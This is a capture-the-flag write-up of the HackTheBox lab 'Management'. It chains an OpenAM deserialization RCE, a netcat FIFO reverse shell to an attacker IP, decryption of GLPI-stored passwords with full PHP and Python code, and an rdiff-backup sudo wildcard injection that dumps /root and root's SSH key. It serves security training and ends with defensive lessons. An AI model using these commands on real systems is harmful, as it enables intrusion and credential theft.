



# Management - HackTheBox Writeup

[](https://app.hackthebox.com/machines/Management)
[](#)

> **Challenge Link:** [Management](https://app.hackthebox.com/machines/Management)

---

## Table of Contents

1. [Machine Overview & Attack Path](#machine-overview--attack-path)
2. [Reconnaissance & Enumeration](#reconnaissance--enumeration)
   - [Fast Port Discovery (Rustscan)](#fast-port-discovery-rustscan)
   - [Service & Version Scan (Nmap)](#service--version-scan-nmap)
   - [Web Application Enumeration](#web-application-enumeration)
3. [Initial Foothold (OpenAM CVE-2026-33439)](#initial-foothold-openam-cve-2026-33439)
   - [Vulnerability Analysis](#vulnerability-analysis)
   - [Remote Code Execution](#remote-code-execution)
   - [Reverse Shell & PTY Stabilization](#reverse-shell--pty-stabilization)
4. [Lateral Movement: OpenAM to Owen](#lateral-movement-openam-to-owen)
   - [GLPI Configuration & MySQL Enumeration](#glpi-configuration--mysql-enumeration)
   - [Decrypting GLPI Passwords (Libsodium XChaCha20-Poly1305)](#decrypting-glpi-passwords-libsodium-xchacha20-poly1305)
   - [SSH Access as Owen & User Flag](#ssh-access-as-owen--user-flag)
5. [Privilege Escalation: Owen to Root](#privilege-escalation-owen-to-root)
   - [Sudo Privileges Inspection](#sudo-privileges-inspection)
   - [rdiff-backup Argument Injection Exploitation](#rdiff-backup-argument-injection-exploitation)
   - [Exfiltrating `/root` & Obtaining Root Shell](#exfiltrating-root--obtaining-root-shell)
6. [Summary & Key Takeaways](#summary--key-takeaways)

---

## Machine Overview & Attack Path

**Management** is an easy-difficulty Linux machine on HackTheBox that tests skills across Java framework vulnerabilities, internal database credential extraction with authenticated cryptography, and backup tool wildcard argument injection:

```
[Target: 10.129.132.189]
        │
        ├── Port 80/443: Web Server (management.htb & sso.management.htb)
        │       │
        │       └── OpenAM 16.0.5 detected (v=16.0.5)
        │               │
        │               └── CVE-2026-33439 (jato.clientSession Deserialization RCE)
        │                       │
        │                       └── Shell as openam (uid=996)
        │
        ├── Local Enumeration: GLPI (/opt/glpi/config)
        │       │
        │       ├── config_db.php -> MySQL credentials (glpi:8rhu0L6Pw4Y7)
        │       ├── MySQL glpidb -> Encrypted LDAP password in glpi_authldaps
        │       └── Libsodium XChaCha20-Poly1305 Decryption with glpicrypt.key
        │               │
        │               └── Recovered password: WpczC40GhTbk -> SSH as owen (User Flag)
        │
        └── Privilege Escalation
                │
                ├── sudo -l -> rdiff-backup --server --restrict-path /opt/backup *
                └── Wildcard injection via --remote-schema and host override (/::/root)
                        │
                        └── Dump /root (Root Flag & root id_ed25519 SSH Key)
```

---

## Reconnaissance & Enumeration

### Fast Port Discovery (Rustscan)

We begin reconnaissance using `rustscan` to rapidly identify listening ports on the target.

```bash
❯ rustscan -a 10.129.132.189 --ulimit 5000
```

```bash
Open 10.129.132.189:22 -- SSH
Open 10.129.132.189:80 -- HTTP
Open 10.129.132.189:443 -- HTTPS
Open 10.129.132.189:1689 -- Java RMI
Open 10.129.132.189:4444 -- SSL LDAP
Open 10.129.132.189:50389 -- LDAP
```

`rustscan` identified 6 open ports:

- **Port 22**: SSH
- **Port 80 / 443**: HTTP / HTTPS (Nginx)
- **Port 1689**: Java RMI Registry (`org.opends.server.protocols.jmx`)
- **Port 4444**: SSL-wrapped LDAP administration endpoint
- **Port 50389**: Plain LDAP service (supports anonymous binds)

---

### Service & Version Scan (Nmap)

We pipe the discovered ports into `nmap` with default scripts (`-sC`) and service version detection (`-sV`):

```bash
❯ nmap -sCV -p 22,80,443,1689,4444,50389 10.129.132.189 -oN nmap_scan.txt
```

```bash
Scanning 6 services on management.htb (10.129.132.189)
Completed Service scan at 11:59, 73.14s elapsed (6 services on 1 host)
NSE: Script scanning 10.129.132.189.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 11:59
Completed NSE at 11:59, 7.59s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 11:59
Completed NSE at 11:59, 2.95s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 11:59
Completed NSE at 11:59, 0.00s elapsed
Nmap scan report for management.htb (10.129.132.189)
Host is up, received echo-reply ttl 63 (0.23s latency).
Scanned at 2026-10-31 11:58:02 IST for 84s

PORT      STATE SERVICE  REASON         VERSION
22/tcp    open  ssh      syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.19 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN9Ju3bTZsFozwXY1B2KIlEY4BA+RcNM57w4C5EjOw1QegUUyCJoO4TVOKfzy/9kd3WrPEj/FYKT2agja9/PM44=
|   256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH9qI0OvMyp03dAGXR0UPdxw7hjSwMR773Yb9Sne+7vD
80/tcp    open  http     syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to https://management.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
443/tcp   open  ssl/http syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
| tls-alpn:
|   http/1.1
|   http/1.0
|_  http/0.9
|_http-server-header: nginx/1.24.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD
| ssl-cert: Subject: commonName=management.htb/organizationName=Management Managed Services Ltd
| Subject Alternative Name: DNS:management.htb, DNS:*.management.htb
| Issuer: commonName=management.htb/organizationName=Management Managed Services Ltd
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-06-02T01:21:44
| Not valid after:  2126-05-09T01:21:44
|_http-title: Management — Managed IT & Infrastructure
|_ssl-date: TLS randomness does not represent time
1689/tcp  open  java-rmi syn-ack ttl 63 Java RMI
| rmi-dumpregistry:
|   org.opends.server.protocols.jmx.client-unknown
|     javax.management.remote.rmi.RMIServerImpl_Stub
|     @127.0.1.1:40941
|     extends
|       java.rmi.server.RemoteStub
|       extends
|_        java.rmi.server.RemoteObject
4444/tcp  open  ssl/ldap syn-ack ttl 63
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=sso.management.htb/organizationName=Administration Connector RSA Self-Signed Certificate
| Issuer: commonName=sso.management.htb/organizationName=Administration Connector RSA Self-Signed Certificate
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
50389/tcp open  ldap     syn-ack ttl 63 (Anonymous bind OK)
```

From the SSL certificates on port 443 and 4444, we discover two domains:

- `management.htb`
- `sso.management.htb`

Add these hostnames to `/etc/hosts`:

```bash
sudo sh -c 'echo "10.129.132.189 management.htb sso.management.htb" >> /etc/hosts'
```

---

### Web Application Enumeration

Navigating to `https://management.htb/` displays the homepage for **Management — Managed IT & Infrastructure**:



Looking through the navigation links, we notice a **Client Login** button pointing to `https://sso.management.htb/`.

Opening `https://sso.management.htb/` leads to an **OpenAM** authentication portal:



> **OpenAM** (Open Access Management) is an open-source identity federation and access management platform offering SSO, authentication, and authorization.

Examining the source code of the OpenAM landing page reveals the following:

```html
<!doctype html>
<html>
  <head>
    <meta charset="utf-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />
    <title>OpenAM</title>
  </head>
  <!--[if IE 9]>
    <body style="display:none" class="ie9">
    <![endif]-->
  <!--[if (gt IE 9)|!(IE)]><!-->
  <body style="display: none">
    <!--<![endif]-->
    <div id="messages" class="clearfix"></div>
    <div id="wrapper">Loading...</div>
    <div id="popup">
      <div id="popup-content" class="radious"></div>
    </div>
    <footer id="footer" class="footer text-muted"></footer>
    <script src="libs/base64-1.0.0-min.js"></script>
    <script type="text/javascript">
      var require = {
        urlArgs: "v=16.0.5",
        deps: ["main"],
      };
    </script>
    <script src="libs/requirejs-2.3.7-min.js"></script>
  </body>
</html>
```

The script config specifies `urlArgs: "v=16.0.5"`, revealing the exact version in use: **OpenIdentityPlatform OpenAM 16.0.5**.

---

## Initial Foothold (OpenAM CVE-2026-33439)

### Vulnerability Analysis

A quick vulnerability check for OpenAM version `16.0.5` points to **GHSA-2cqq-rpvq-g5qj / CVE-2026-33439** (Critical CVSS 9.8): **Pre-Authentication Remote Code Execution via `jato.clientSession` Deserialization**.

#### Vulnerability Details:

- **Component:** OpenAM's underlying Java Application Technology Organization (JATO) framework.
- **Root Cause:** Insecure Java deserialization in `ClientSession.deserializeAttributes()`.
- **Attack Vector:** An unauthenticated remote attacker can supply a serialized Java payload via the `jato.clientSession` HTTP request parameter to endpoints with active JATO ViewBeans, such as `/openam/ui/PWResetUserValidation`.
- When JATO processes the request, the application reconstructs the serialized objects without safe filtering, triggering arbitrary remote code execution on the underlying host with the permissions of the `openam` user.

Public exploit PoC repository:

> [infernosalex/CVE-2026-33439-Python-PoC](https://github.com/infernosalex/CVE-2026-33439-Python-PoC/blob/main/exploit.py)

---

### Remote Code Execution

We clone or download the exploit script and test command execution with `id`:

```bash
❯ python3 exploit.py \
  --url https://sso.management.htb/openam/ui/PWResetUserValidation \
  'id'
```

Output:

```bash
[+] HTTP 200
uid=996(openam) gid=987(openam) groups=987(openam)
```

We have pre-authentication remote command execution as the service user `openam`.

---

### Reverse Shell & PTY Stabilization

To obtain an interactive shell, we use a classic FIFO reverse shell payload:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <ATTACKER_IP> 1337 >/tmp/f
```

1. Start a netcat listener on the attacking machine:

```bash
❯ rlwrap nc -nvlp 1337
```

2. Trigger the reverse shell through the exploit:

```bash
❯ python3 exploit.py \
  --url https://sso.management.htb/openam/ui/PWResetUserValidation \
  'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.XX 1337 >/tmp/f'
```

3. Catch the incoming connection:

```bash
❯ rlwrap nc -nvlp 1337
listening on [any] 1337 ...
connect to [MY_IP] from (UNKNOWN) [VITIM_IP] 57352
bash: cannot set terminal process group (1687): Inappropriate ioctl for device
bash: no job control in this shell
openam@management:/$ id
id
```

4. Upgrade to a fully interactive TTY:

```bash
# In reverse shell:
openam@management:/$ python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z

# In local terminal:
❯ stty raw -echo; fg
[1]  + continued  rlwrap nc -nvlp 1337

openam@management:/$ export TERM=xterm-256color
openam@management:/$ stty rows 38 cols 160
```

---

## Lateral Movement: OpenAM to Owen

### GLPI Configuration & MySQL Enumeration

As `openam`, we check home directories and installed services. A normal user named `owen` exists in `/home/owen`, but we cannot read `/home/owen/user.txt` directly.

Running `linpeas` or checking `/opt/` reveals a **GLPI** installation in `/opt/glpi`:

```bash
openam@management:/$ cd /opt/glpi/config
openam@management:/opt/glpi/config$ ls -la
total 24
drwxr-x---  2 root   glpi 4096 Jun  2 01:25 .
drwxr-xr-x 13 root   glpi 4096 Jun  2 01:25 ..
-rw-r-----  1 root   glpi  323 Jun  2 01:25 config_db.php
-rw-r-----  1 glpi   glpi   32 Jun  2 01:25 glpicrypt.key
-rw-r-----  1 root   glpi 1704 Jun  2 01:25 oauth.pem
-rw-r-----  1 root   glpi  451 Jun  2 01:25 oauth.pub
```

The database configuration file `config_db.php` is world-readable or accessible to members of the group:

```bash
openam@management:/opt/glpi/config$ cat config_db.php
```

```php
<?php
class DB extends DBmysql {
   public $dbhost = '127.0.0.1';
   public $dbuser = 'glpi';
   public $dbpassword = '8rhu0L6Pw4Y7';
   public $dbdefault = 'glpidb';
   public $use_utf8mb4 = true;
   public $allow_datetime = false;
   public $allow_signed_keys = false;
}
```

We now have database credentials:

- **Host:** `127.0.0.1`
- **User:** `glpi`
- **Password:** `8rhu0L6Pw4Y7`
- **Database:** `glpidb`

Connect to the local MariaDB/MySQL instance:

```bash
openam@management:/opt/glpi/config$ mysql -h 127.0.0.1 -u glpi -p8rhu0L6Pw4Y7 glpidb
```

GLPI contains numerous tables. We query for authentication-related tables (`auth`):

```sql
SHOW TABLES LIKE '%auth%';
```

We find the `glpi_authldaps` table, which stores external LDAP directory configurations and bind credentials. Let's dump its contents:

```bash
openam@management:~$ mysql -u glpi -p8rhu0L6Pw4Y7 -e "SELECT * FROM glpi_authldaps\G" glpidb
```

Output:

```bash
*************************** 1. row ***************************
                       id: 1
                     name: Management Directory
                     host: sso.management.htb
                   basedn: dc=management,dc=htb
                   rootdn: cn=svc-glpi,ou=services,dc=management,dc=htb
                     port: 389
                condition: NULL
              login_field: uid
               sync_field: uid
                  use_tls: 0
              group_field: NULL
          group_condition: NULL
        group_search_type: 0
       group_member_field: NULL
             email1_field: NULL
           realname_field: NULL
          firstname_field: NULL
              phone_field: NULL
             phone2_field: NULL
             mobile_field: NULL
            comment_field: NULL
                   use_dn: 1
              time_offset: 0
             deref_option: 0
              title_field: NULL
           category_field: NULL
           language_field: NULL
                 date_mod: 2026-06-02 01:25:41
                  comment: Primary directory bind used to synchronise managed client accounts.
               is_default: 0
                is_active: 1
            rootdn_passwd: avrqW65aZWKzLAKWhPxZGn1eLj3yYAnwUp08mEazsJUWfI5cqbaP6vM12w0p/ykpmyO3Pw==
registration_number_field: NULL
             email2_field: NULL
             email3_field: NULL
             email4_field: NULL
            location_field: NULL
        responsible_field: NULL
                 pagesize: 0
            ldap_maxlimit: 0
     can_support_pagesize: 0
            picture_field: NULL
         begin_date_field: NULL
           end_date_field: NULL
            date_creation: 2026-06-02 01:25:41
         inventory_domain: NULL
             tls_certfile: NULL
              tls_keyfile: NULL
                 use_bind: 1
                  timeout: 10
              tls_version: NULL
```

The LDAP bind account password string is:

```text
avrqW65aZWKzLAKWhPxZGn1eLj3yYAnwUp08mEazsJUWfI5cqbaP6vM12w0p/ykpmyO3Pw==
```

---

### Decrypting GLPI Passwords (Libsodium XChaCha20-Poly1305)

The password string is Base64-encoded, but decoding it reveals binary data rather than plaintext:

- Decoded byte length: **52 bytes**
- Format: GLPI 9.5+ / 10.x uses PHP's native **Libsodium** AEAD algorithm: `XChaCha20-Poly1305-IETF` (`Toolbox::sodiumEncrypt`).
- The 52-byte blob structure:
  - **Bytes 0–24 (24 bytes):** Nonce (`SODIUM_CRYPTO_AEAD_XCHACHA20POLY1305_IETF_NPUBBYTES`)
  - **Bytes 24–52 (28 bytes):** Ciphertext + 16-byte Poly1305 authentication tag (`ABYTES`)
  - **Plaintext length:** $28 - 16 = 12$ bytes.

The encryption key is stored in `/opt/glpi/config/glpicrypt.key`.



#### Method 1: Decrypting using PHP on the Target

Since PHP with the `sodium` extension is already installed on the machine, we can run a one-line decryption script directly:

```bash
openam@management:/opt/glpi$ php -r '
$key = file_get_contents("/opt/glpi/config/glpicrypt.key");
$data = base64_decode("avrqW65aZWKzLAKWhPxZGn1eLj3yYAnwUp08mEazsJUWfI5cqbaP6vM12w0p/ykpmyO3Pw==");
$nonce = substr($data, 0, SODIUM_CRYPTO_AEAD_XCHACHA20POLY1305_IETF_NPUBBYTES);
$ciphertext = substr($data, SODIUM_CRYPTO_AEAD_XCHACHA20POLY1305_IETF_NPUBBYTES);
echo sodium_crypto_aead_xchacha20poly1305_ietf_decrypt($ciphertext, "", $nonce, $key) . "\n";
'
```

#### Method 2: Decrypting using Python Locally

```python
import base64
from nacl.bindings import crypto_aead_xchacha20poly1305_ietf_decrypt

with open("glpicrypt.key", "rb") as f:
    key = f.read()

blob = base64.b64decode("avrqW65aZWKzLAKWhPxZGn1eLj3yYAnwUp08mEazsJUWfI5cqbaP6vM12w0p/ykpmyO3Pw==")
nonce = blob[:24]
ciphertext = blob[24:]

plaintext = crypto_aead_xchacha20poly1305_ietf_decrypt(ciphertext, None, nonce, key)
print("Decrypted Password:", plaintext.decode())
```

Both methods reveal the decrypted password:

```text
WpczC40GhTbk
```

---

### SSH Access as Owen & User Flag

Testing password reuse, we authenticate over SSH with user `owen`:

```bash
❯ ssh owen@management.htb
owen@management.htb's password: WpczC40GhTbk
```

```bash
owen@management:~$ whoami
owen
owen@management:~$ id
uid=1000(owen) gid=1000(owen) groups=1000(owen)
owen@management:~$ ls -lah
total 28K
drwxr-x--- 3 owen owen 4.0K Sep  7 11:41 .
drwxr-xr-x 3 root root 4.0K Sep  7 11:41 ..
lrwxrwxrwx 1 root root    9 Sep  7 11:09 .bash_history -> /dev/null
-rw-r--r-- 1 owen owen  220 Mar 31  2024 .bash_logout
-rw-r--r-- 1 owen owen 3.7K Mar 31  2024 .bashrc
drwx------ 2 owen owen 4.0K Sep  7 11:41 .cache
-rw-r--r-- 1 owen owen  807 Mar 31  2024 .profile
-rw-r----- 1 root owen   33 Oct 31 10:25 user.txt
```

Read the user flag:

```bash
owen@management:~$ cat user.txt
8fc2603f7a0ccefce438695a9fbb29a0
```

> **User Flag:** `8fc2603f7a0ccefce438695a9fbb29a0`

---

## Privilege Escalation: Owen to Root

### Sudo Privileges Inspection

Checking sudo permissions for `owen`:

```bash
owen@management:~$ sudo -l
Matching Defaults entries for owen on management:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User owen may run the following commands on management:
    (root) NOPASSWD: /usr/bin/rdiff-backup --server --restrict-path /opt/backup --restrict-mode read-only *
```

The sudoers configuration allows `owen` to execute `/usr/bin/rdiff-backup` with fixed flags followed by a wildcard `*`:

```text
(root) NOPASSWD: /usr/bin/rdiff-backup --server --restrict-path /opt/backup --restrict-mode read-only *
```

---

### rdiff-backup Argument Injection Exploitation

#### How `rdiff-backup` Operates

`rdiff-backup` supports a client-server architecture:

1. When performing backups from or to remote hosts, `rdiff-backup` spawns a server process on the remote side, communicating over stdin/stdout pipes.
2. The `--remote-schema` option specifies the exact command template used to invoke the server process instead of standard SSH.
3. In `--remote-schema`, the token `%s` is automatically replaced with the host string parsed from the source/destination path (`host::path`).

#### Overriding `--restrict-path`

In `rdiff-backup`, command-line flags are evaluated sequentially, and **the last occurrence of an option takes precedence**.

Because `sudoers` includes a trailing wildcard `*`, we can append extra arguments to the root command!

By setting the remote host to `/` via the location syntax `/::/root`:

- Location parameter: `/::/root`
  - Host (`%s`): `/`
  - Path: `/root`
- The `--remote-schema` template:
  ```bash
  sudo /usr/bin/rdiff-backup --server --restrict-path /opt/backup --restrict-mode read-only --restrict-path %s
  ```
- When `%s` is replaced with `/`, the actual command executed as root becomes:
  ```bash
  sudo /usr/bin/rdiff-backup --server --restrict-path /opt/backup --restrict-mode read-only --restrict-path /
  ```
- This matches the sudoers prefix rule while appending `--restrict-path /`, which completely overrides the `/opt/backup` restriction!

#### Exploitation Flow Diagram

```text
[ owen (Client) ]                                       [ root (Server) ]
rdiff-backup backup                                     sudo rdiff-backup --server
      │                                                         │
      │──────────────── stdin / stdout pipe ────────────────────│
      │                                                         │
      │  Request: Read /root                                    │
      │────────────────────────────────────────────────────────>│
      │                                                         │  Reads /root as root
      │  Streams file contents                                  │  (--restrict-path overridden to /)
      │<────────────────────────────────────────────────────────│
      │                                                         │
Writes exfiltrated files to /tmp/root_backup
```

---

### Exfiltrating `/root` & Obtaining Root Shell

Execute the injection command from the terminal:

```bash
owen@management:~$ rdiff-backup \
  --remote-schema "sudo /usr/bin/rdiff-backup --server --restrict-path /opt/backup --restrict-mode read-only --restrict-path %s" \
  backup /::/root /tmp/root_backup
```

The backup completes and stores the entire `/root` directory inside `/tmp/root_backup`:

```bash
owen@management:~$ ls -la /tmp/root_backup
total 44
drwx------  7 owen owen 4096 Oct 31 10:25 ./
drwxrwxrwt 18 root root 4096 Oct 31 12:12 ../
lrwxrwxrwx  1 owen owen    9 Oct 31 12:12 .bash_history -> /dev/null
-rw-r--r--  1 owen owen 3106 Apr 22  2024 .bashrc
drwx------  3 owen owen 4096 Sep  7 11:41 .cache/
drwx------  3 owen owen 4096 Sep  7 11:41 .config/
drwxr-xr-x  3 owen owen 4096 Sep  7 11:41 .local/
-rw-r--r--  1 owen owen  161 Apr 22  2024 .profile
drwx------  3 owen owen 4096 Oct 31 12:12 rdiff-backup-data/
-rw-r-----  1 owen owen   33 Oct 31 10:25 root.txt
drwx------  2 owen owen 4096 Sep  7 11:41 .ssh/
-rw-r--r--  1 owen owen  177 Sep  7 11:06 .wget-hsts
```

Read the root flag:

```bash
owen@management:~$ cat /tmp/root_backup/root.txt
3e6ebcdd9a0f011f88a80edec57292c1
```

> **Root Flag:** `3e6ebcdd9a0f011f88a80edec57292c1`

In addition, the backup extracted root's private SSH key from `/root/.ssh/id_ed25519`:

```bash
owen@management:~$ ls -la /tmp/root_backup/.ssh/
total 20K
drwx------ 2 owen owen 4.0K Sep  7 11:41 .
drwx------ 7 owen owen 4.0K Oct 31 10:25 ..
-rw------- 1 owen owen   97 Jul 16 15:37 authorized_keys
-rw------- 1 owen owen  411 Jul 16 15:37 id_ed25519
-rw-r--r-- 1 owen owen   97 Jul 16 15:37 id_ed25519.pub
```

Copy the key and log in directly as `root` via SSH:

```bash
owen@management:~$ ssh -i /tmp/root_backup/.ssh/id_ed25519 root@127.0.0.1
```

```bash
root@management:~# whoami
root
root@management:~# id
uid=0(root) gid=0(root) groups=0(root)
```

We have established full root administrative control over the machine.

---

## Summary & Key Takeaways

| Phase                    | Vulnerability / Technique                               | Key Artifact / Tool                           | Impact                                                                    |
| ------------------------ | ------------------------------------------------------- | --------------------------------------------- | ------------------------------------------------------------------------- |
| **Reconnaissance**       | Port scan & Hostname enumeration                        | `rustscan`, `nmap`                            | Discovered `management.htb`, `sso.management.htb`, and OpenAM 16.0.5      |
| **Initial Foothold**     | Java Deserialization in JATO framework (CVE-2026-33439) | `exploit.py` (`jato.clientSession`)           | Pre-Auth Remote Code Execution as `openam`                                |
| **Lateral Movement**     | Hardcoded credentials & Libsodium decryption            | MySQL (`glpidb`), `glpicrypt.key`, PHP sodium | Recovered Owen's password (`WpczC40GhTbk`), User Flag                     |
| **Privilege Escalation** | Wildcard argument injection & `--remote-schema`         | `rdiff-backup` (`--restrict-path %s`)         | Overrode restricted path to `/`, dumped `/root` and obtained root SSH key |

### Key Lessons

1. **Never Trust Serialized Session Objects:** Frameworks like JATO that deserialize untrusted input across HTTP endpoints remain high-risk attack vectors unless input is strictly validated or modern safe serialization alternatives are used.
2. **Protect Cryptographic Keys on Disk:** Storing symmetric keys (`glpicrypt.key`) readable by application users allows anyone with local code execution to decrypt database secrets.
3. **Avoid Sudo Wildcards on Complex Binaries:** Sudoers entries ending in `*` permit argument injection. Programs with custom schema handlers or path arguments should be wrapped with strict shell scripts rather than granting direct wildcard sudo access.
